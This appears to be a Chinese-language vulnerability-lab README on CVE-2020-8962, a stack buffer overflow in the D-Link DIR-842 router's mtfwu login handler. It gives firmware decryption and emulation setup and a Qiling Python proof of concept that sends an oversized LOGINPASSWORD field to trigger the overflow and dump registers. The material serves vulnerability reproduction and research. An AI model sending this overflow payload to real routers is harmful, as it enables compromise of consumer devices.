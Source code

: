 # D-Link DIR-842 路由器缓冲区溢出漏洞（CVE-2020-8962）


## 漏洞环境

需要解密固件，方法是开启一个 `qemu-user-static` 容器，使用 qemu-mips-static 运行 DIR842C1_FW302b03_middle.bin 的 `usr/sbin/encimg` 程序对 DIR842C1_FW313WWb05.bin.org 进行解密，得到 DIR842C1_FW313WWb05.bin。

```sh
$ docker run --privileged --rm -v $PWD/firmware:/root/firmware -it firmianay/qemu-user-static /bin/bash
$ ./qemu-mips-static -L . ./usr/sbin/encimg ./DIR842C1_FW313WWb05.bin.org

# 98868352a4913aee2d2da4acd8e1a04e  DIR842C1_FW302b03_middle.bin
# c40930278051bbf66f24a657676dd5b4  DIR842C1_FW313WWb05.bin
# ae141c12535cae08e49e4876410ebb9d  DIR842C1_FW313WWb05.bin.org
```

本目录下对固件已经是解密版本，可以直接使用 binwalk 解包，进行后续操作。

```sh
$ docker-compose -f docker-compose-firmadyne.yml build

# 启动环境，账号/密码 root/sohoadmin
$ docker-compose -f docker-compose-firmadyne.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it dlink-firmadyne /bin/bash
```

## 漏洞复现

## Exploit

```py
from qiling import *

def my_syscall_sysinfo(ql, sysinfo_info, *args, **kwargs):
    ql.mem.write(sysinfo_info, b"AAAA") # uptime
    regreturn = 0
    ql.nprint("sysinfo(0x%x) = %d" % (sysinfo_info, regreturn))
    ql.os.definesyscall_return(regreturn)

# dump all registers
def dump_reg(ql, *args, **kwargs):
    for idx, val in ql.reg.save().items():
        if not isinstance(idx, int):
            print(idx, ":", hex(val))
            
    breakpoint()

class Fake_stdin:
    def read(self, size, *args, **kwargs):
        return b'ACTION=login&LOGINPASSWORD=' + b'A' * 0x248

    def fileno(self, *args, **kwargs):
        return 0

if __name__ == "__main__":

    envs = {
            "REQUEST_METHOD": "POST",
            "REQUEST_URI": "/MTFWU",
            "CONTENT_TYPE": "application/x-www-form-urlencoded",
            "HTTP_MTFWU_ACT": "Login",
            "HTTP_COOKIE": "uid=AAAA",
            "CONTENT_LENGTH": str(27+0x248), 
            }

    ql = Qiling(["squashfs-root/usr/sbin/mtfwu"], "squashfs-root", 
                output="default",
                env=envs,           # setting environment variables 
                stdin=Fake_stdin()) # hijack stdin with Fake_stdin
                
    ql.set_syscall("sysinfo", my_syscall_sysinfo)  # syscall hook for sysinfo
    ql.set_syscall("_newselect", lambda *_: None)  # hook syscall _newselect with anonymous NOP function to avoid manual input requirement
    ql.hook_address(dump_reg, 0x41db40)            # breakpoint before return and dump all register
    ql.run()
```

## 参考链接

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8962
- https://ctrsec.io/index.php/2020/02/12/cve-2020-8962-d-link-dir-842-stack-based-buffer-overflow/
- https://ucgjhe.github.io/post/cve_2020_8962/

